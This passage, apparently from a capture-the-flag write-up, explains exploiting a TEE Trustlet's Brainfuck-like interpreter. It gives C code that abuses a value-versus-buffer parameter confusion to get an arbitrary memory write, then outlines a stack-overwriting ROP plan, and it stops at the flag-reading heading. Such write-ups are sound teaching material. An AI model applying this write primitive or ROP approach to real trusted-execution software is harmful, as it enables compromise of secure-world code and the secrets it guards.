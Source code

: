 To do AAW we can put data we want to write in `input` buffer, integer representing target address in `output` parameter and use Brainfuck `code` that will simply copy input to output (for example, by `,<.<` code blocks). Let's implement this idea in code:
```c
// This buffer is used to pass ROP chain to TA and retrieve flag after TA return
uint8_t input[0x8000];
char code[0x8000];

void aaw(uint64_t address, uint8_t* data, size_t sz)
{
  // Prepare brain-fuck-like code to write input to output
  for(size_t i =0; i < sz; ++i)
    strcat(code,",<.<");

  // Put data we need to write in input buffer
  memcpy(input, data, sz);

  // Here is vulnerability
  // We pass output as value (uint32_t number), but TA think it's correct buffer address
  // So we have AAW primitive
  TEEC_Operation op = {};
  op.paramTypes = TEEC_PARAM_TYPES(TEEC_MEMREF_TEMP_INPUT,
    TEEC_MEMREF_TEMP_INOUT, TEEC_VALUE_INPUT, TEEC_NONE);
  op.params[0].tmpref.buffer = code;
  op.params[0].tmpref.size   = strlen(code)-1;
  op.params[1].tmpref.buffer = input;
  op.params[1].tmpref.size   = sizeof(input);
  op.params[2].value.a = address;
  op.params[2].value.b = sizeof(input);

  // Do AAW
  TEEC_Result res;
  unsigned int err_origin;
  res = TEEC_InvokeCommand(&sess, 0,
    &op, &err_origin);
}
```
Now we have  primitive that allows arbitrary writes anywhere in the Trustlet's memory. But what exactly should we overwrite to achieve... well, achieve what exactly?

As evident from the decompiled code, all functions conclude with an instruction that pops the `pc` register value from the stack. 
So, if we can write to the stack we can achieve code execution using [ROP](https://en.wikipedia.org/wiki/Return-oriented_programming) - execute some small usefull blocks of the Trustlet's code (gadgets) one by one in a chain. 
To do that we need to write gadget's addresses to the right places in the stack so they can be executed after `pc` register pop.

### How to read the flag?
